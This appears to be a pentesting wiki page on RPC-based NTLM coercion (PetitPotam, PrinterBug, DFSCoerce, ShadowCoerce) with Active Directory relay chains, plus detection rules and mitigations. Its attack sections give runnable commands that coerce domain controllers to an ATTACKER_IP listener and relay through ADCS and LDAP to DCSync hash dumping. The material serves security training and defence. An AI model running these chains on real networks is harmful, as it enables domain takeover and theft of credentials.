

# RPC-Based NTLM Coercion

## Overview

RPC-based coercion is the **most powerful class** of NTLM hash disclosure attacks because it requires **zero user interaction**. An attacker with network access (and in some cases, zero credentials) can force a Windows server — including Domain Controllers — to authenticate to an attacker-controlled listener.

The captured machine account NTLM hash can then be relayed to:

- **LDAP** → Add DCSync rights, create admin accounts, modify ACLs
- **AD CS (ADCS)** → Request certificates for the machine account → Authenticate as DC
- **SMB** → Execute code on other servers



---

## The Big Five: Core Coercion Techniques

### 1. PetitPotam (MS-EFSR)

| Property | Detail |
|---|---|
| **Protocol** | MS-EFSR (Encrypting File System Remote) |
| **Function Abused** | `EfsRpcOpenFileRaw` (and others) |
| **CVE** | CVE-2021-36942 |
| **Auth Required?** | ❌ Unauthenticated on unpatched DCs |
| **Patched?** | Partially — unauthenticated path patched, authenticated still works |
| **Impact** | Force DC to authenticate to attacker |

**The most famous coercion technique**. Discovered by researcher "topotam" in July 2021.

```bash
# Unauthenticated (unpatched DCs only)
python3 PetitPotam.py ATTACKER_IP DC_IP

# Authenticated (works on all DCs)
python3 PetitPotam.py -u 'user' -p 'password' -d 'domain.local' ATTACKER_IP DC_IP
```

**Abused Functions** (any of these can trigger coercion):

- `EfsRpcOpenFileRaw`
- `EfsRpcEncryptFileSrv`
- `EfsRpcDecryptFileSrv`
- `EfsRpcQueryUsersOnFile`
- `EfsRpcQueryRecoveryAgents`

### 2. PrinterBug / SpoolSample (MS-RPRN)

| Property | Detail |
|---|---|
| **Protocol** | MS-RPRN (Print System Remote) |
| **Function Abused** | `RpcRemoteFindFirstPrinterChangeNotificationEx` |
| **CVE** | None (by design) |
| **Auth Required?** | ✅ Any authenticated domain user |
| **Patched?** | ❌ Not a vulnerability — "intended functionality" |
| **Impact** | Force any server with Spooler running to authenticate |

The PrinterBug is unique because Microsoft considers it **intended functionality** of the Print Spooler service. Any authenticated user can request change notifications from any server's Print Spooler, causing it to authenticate back to the caller.

```bash
# Using SpoolSample
SpoolSample.exe DC01 ATTACKER_MACHINE

# Using printerbug.py (Impacket)
python3 printerbug.py 'domain.local/user:Password@DC01' ATTACKER_IP

# Using Coercer
python3 coercer.py coerce -u 'user' -p 'Password' -d 'domain.local' -l ATTACKER_IP -t DC01
```

!!! tip "Requires Spooler Running"
    The Print Spooler service must be running on the target. On modern DCs it's often disabled (best practice), but many environments still have it enabled. Check with:
    ```bash
    impacket-rpcdump DC01 | grep -i "spoolss"
    ```

### 3. DFSCoerce (MS-DFSNM)

| Property | Detail |
|---|---|
| **Protocol** | MS-DFSNM (Distributed File System Namespace Management) |
| **Function Abused** | `NetrDfsRemoveStdRoot`, `NetrDfsAddStdRoot` |
| **CVE** | None assigned |
| **Auth Required?** | ✅ Any authenticated domain user |
| **Patched?** | ❌ Not patched as of 2026 |
| **Impact** | Force DC to authenticate to attacker |

Discovered in June 2022 by Filip Dragovic. Abuses the DFS Namespace management RPC interface.

```bash
# Using DFSCoerce
python3 dfscoerce.py -u 'user' -p 'Password' -d 'domain.local' ATTACKER_IP DC01

# Using Coercer
python3 coercer.py coerce -u 'user' -p 'Password' -d 'domain.local' -l ATTACKER_IP -t DC01 --filter-protocol-name MS-DFSNM
```

### 4. ShadowCoerce (MS-FSRVP)

| Property | Detail |
|---|---|
| **Protocol** | MS-FSRVP (File Server Remote VSS Protocol) |
| **Function Abused** | `IsPathSupported`, `IsPathShadowCopied` |
| **CVE** | None assigned |
| **Auth Required?** | ✅ Any authenticated domain user |
| **Patched?** | ❌ Not patched |
| **Impact** | Force file servers to authenticate |

Abuses the File Server VSS Agent (used by backup software). Works against file servers, not DCs typically.

```bash
python3 shadowcoerce.py -u 'user' -p 'Password' -d 'domain.local' ATTACKER_IP FILESERVER01
```

### 5. CheeseOunce / Coerce via MS-EVEN

| Property | Detail |
|---|---|
| **Protocol** | MS-EVEN (EventLog Remoting) |
| **Function Abused** | `ElfrOpenBELA` (Backup Event Log) |
| **Auth Required?** | ✅ Authenticated |
| **Patched?** | Varies |

Forces the target to write an event log backup to a UNC path, triggering NTLM authentication.

---

## Additional Coercion Vectors

| Vector | Protocol | Function | Status |
|---|---|---|---|
| **MS-RPRN** (PrinterBug) | Print Spooler | `RpcRemoteFindFirstPrinterChangeNotificationEx` | Working |
| **MS-EFSR** (PetitPotam) | EFS | `EfsRpcOpenFileRaw` + others | Authenticated only |
| **MS-DFSNM** (DFSCoerce) | DFS | `NetrDfsRemoveStdRoot` | Working |
| **MS-FSRVP** (ShadowCoerce) | VSS Agent | `IsPathSupported` | Working |
| **MS-EVEN** (CheeseOunce) | EventLog | `ElfrOpenBELA` | Working |
| **MS-SAMR** | SAM | Various enumeration calls | Limited |
| **MS-LSAT** | LSA Translate | Name lookup functions | Limited |
| **MS-WKST** | Workstation | `NetrWkstaUserEnum` | Working |
| **MS-NETLOGON** | Netlogon | Various | Partially patched |

---

## The Universal Tool: Coercer

[Coercer](https://github.com/p0dalirius/Coercer) automates ALL known coercion methods in one tool:

```bash
# Scan what methods are available on target
python3 coercer.py scan -u 'user' -p 'Pass' -d 'domain.local' -t DC01

# Coerce using all available methods
python3 coercer.py coerce -u 'user' -p 'Pass' -d 'domain.local' -l ATTACKER_IP -t DC01

# Coerce using specific protocol
python3 coercer.py coerce -u 'user' -p 'Pass' -d 'domain.local' -l ATTACKER_IP -t DC01 --filter-protocol-name MS-EFSR

# Use WebDAV instead of SMB (for HTTP relay)
python3 coercer.py coerce -u 'user' -p 'Pass' -d 'domain.local' -l ATTACKER_IP -t DC01 --listener-type http
```

---

## Attack Chains: Coercion → Domain Admin

### Chain 1: Coercion → ADCS → Domain Admin (ESC8)

The most common modern escalation path:

```mermaid
flowchart TD
    A["Low-Priv Domain User"] --> B["PetitPotam / PrinterBug<br/>against DC"]
    B --> C["DC NTLM Auth captured<br/>by ntlmrelayx"]
    C --> D["Relay to ADCS Web Enrollment<br/>(http://ca/certsrv)"]
    D --> E["Obtain DC Machine<br/>Certificate"]
    E --> F["PKINIT Auth as DC<br/>(Rubeus/certipy)"]
    F --> G["DCSync → All Domain Hashes"]
    
    style A fill:#1a1a2e
    style G fill:#4a0000,stroke:#ff4444
```



```bash
# 1. Start ntlmrelayx targeting ADCS
impacket-ntlmrelayx -t http://ca.corp.local/certsrv/certfnsh.asp -smb2support --adcs --template DomainController

# 2. Trigger coercion
python3 PetitPotam.py -u user -p pass -d corp.local ATTACKER_IP dc01.corp.local

# 3. Use the obtained certificate
certipy auth -pfx dc01.pfx -dc-ip 10.10.10.1

# 4. DCSync with the DC machine account
impacket-secretsdump -k -no-pass dc01.corp.local
```

### Chain 2: Coercion → LDAP → DCSync Rights

```bash
# 1. Relay to LDAP (requires no SMB signing on DC — rare but exists)
impacket-ntlmrelayx -t ldap://dc01.corp.local --escalate-user attacker_user

# 2. Trigger coercion
python3 PetitPotam.py ATTACKER_IP dc01.corp.local

# 3. attacker_user now has DCSync rights
impacket-secretsdump -just-dc corp.local/attacker_user:Password@dc01.corp.local
```

### Chain 3: Coercion → WebDAV → RBCD

When SMB signing is enforced (blocking direct relay), use WebDAV coercion:

```bash
# 1. Start ntlmrelayx for RBCD
impacket-ntlmrelayx -t ldap://dc01.corp.local --delegate-access --escalate-user attacker$

# 2. Coerce via WebDAV (HTTP-based, bypasses SMB signing)
python3 coercer.py coerce -u user -p pass -d corp.local -l ATTACKER_IP@80/path -t dc01 --listener-type http

# 3. Use RBCD to impersonate admin
impacket-getST -spn cifs/dc01.corp.local -impersonate Administrator 'corp.local/attacker$:Pass'
```

---

## Pre-Requisite Checks

### Is the Spooler Running?

```bash
impacket-rpcdump @DC01 | grep -i "MS-RPRN\|spoolss"
# or
crackmapexec smb DC01 -u user -p pass -M spooler
```

### Is ADCS Web Enrollment Exposed?

```bash
curl -s http://ca.corp.local/certsrv/ | head -5
# or
certipy find -u user@corp.local -p pass -dc-ip 10.10.10.1 -vulnerable
```

### Is SMB Signing Required?

```bash
crackmapexec smb DC01 --gen-relay-list unsigned.txt
# Targets WITHOUT signing enforced are relayable
```

---

## Detection

### Event IDs

| Event ID | Source | Indicates |
|---|---|---|
| **5145** | Security | Network share accessed — watch for `\PIPE\efsrpc`, `\PIPE\spoolss`, `\PIPE\netdfs` |
| **4624** | Security | Logon type 3 (Network) from unexpected IPs using DC machine account |
| **4648** | Security | Explicit credential use (relay attempts) |
| **13** | Sysmon | Registry modified for persistence after coercion |

### Sigma Rule: EFS RPC Coercion (PetitPotam)

```yaml
title: PetitPotam NTLM Coercion Attempt
status: stable
logsource:
  product: windows
  service: security
detection:
  selection:
    EventID: 5145
    ShareName: '\\*\IPC$'
    RelativeTargetName|contains:
      - 'efsrpc'
      - 'lsarpc'
      - 'efsr'
  condition: selection
level: high
```

---

## Mitigations

### 1. Enforce SMB Signing on All Domain Controllers

```
Computer Configuration → Policies → Windows Settings → Security Settings → 
Local Policies → Security Options:
  Microsoft network server: Digitally sign communications (always) → Enabled
```

This prevents relay to SMB targets but does NOT prevent relay to HTTP/LDAP.

### 2. Enforce LDAP Signing + Channel Binding

```
Computer Configuration → Policies → Windows Settings → Security Settings →
Local Policies → Security Options:
  Domain controller: LDAP server signing requirements → Require signing
  Domain controller: LDAP server channel binding token requirements → Always
```

### 3. Enforce EPA (Extended Protection for Authentication) on ADCS

```powershell
# On the CA web enrollment server
Set-WebConfigurationProperty -Filter "/system.webServer/security/authentication/windowsAuthentication" -Name "extendedProtection.tokenChecking" -Value "Require" -PSPath "IIS:\Sites\Default Web Site\CertSrv"
```

### 4. Disable Print Spooler on DCs

```powershell
Stop-Service -Name Spooler
Set-Service -Name Spooler -StartupType Disabled
```

### 5. Apply PetitPotam Patch + Block Unauthenticated EFS

Install the latest Windows security updates. Additionally, block unauthenticated RPC to the EFS pipe via Windows Firewall rules.

### 6. Restrict NTLM Authentication

Group Policy: `Network security: Restrict NTLM: NTLM authentication in this domain` → Deny all / Audit first.

---

## Tools Reference

| Tool | Purpose |
|---|---|
| [PetitPotam](https://github.com/topotam/PetitPotam) | MS-EFSR coercion |
| [SpoolSample](https://github.com/leechristensen/SpoolSample) | MS-RPRN PrinterBug |
| [DFSCoerce](https://github.com/Wh04m1001/DFSCoerce) | MS-DFSNM coercion |
| [ShadowCoerce](https://github.com/ShutdownRepo/ShadowCoerce) | MS-FSRVP coercion |
| [Coercer](https://github.com/p0dalirius/Coercer) | Universal coercion tool (all methods) |
| [ntlmrelayx](https://github.com/fortra/impacket) | NTLM relay framework |
| [Certipy](https://github.com/ly4k/Certipy) | ADCS exploitation |
| [Responder](https://github.com/lgandx/Responder) | Hash capture |
| [mitm6](https://github.com/dirkjanm/mitm6) | IPv6 DNS poisoning for coercion |
| [Pretender](https://github.com/RedTeamPentesting/pretender) | Modern Responder alternative |

---

## References

- [Palo Alto Unit 42 — Authentication Coercion Keeps Evolving](https://unit42.paloaltonetworks.com/authentication-coercion/)
- [SpecterOps — Certified Pre-Owned (ADCS whitepaper)](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
- [rootsecdev — Relay Bible](https://github.com/rootsecdev/relay_bible)
- [topotam — PetitPotam](https://github.com/topotam/PetitPotam)
- [p0dalirius — Coercer](https://github.com/p0dalirius/Coercer)
